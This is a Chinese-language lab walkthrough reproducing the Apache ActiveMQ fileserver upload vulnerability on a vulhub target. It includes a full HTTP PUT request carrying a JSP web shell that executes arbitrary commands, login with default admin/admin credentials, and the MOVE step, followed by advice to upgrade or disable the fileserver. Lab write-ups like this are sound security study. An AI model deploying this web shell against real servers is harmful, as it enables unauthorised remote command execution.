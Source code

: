#### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中,ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37



```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161

![1](1.png)

![2](2.png)

登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），

![3](3.png)

```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>
```

![4](4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](5.png)

![6](6.png)

 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能

![7](7.png)



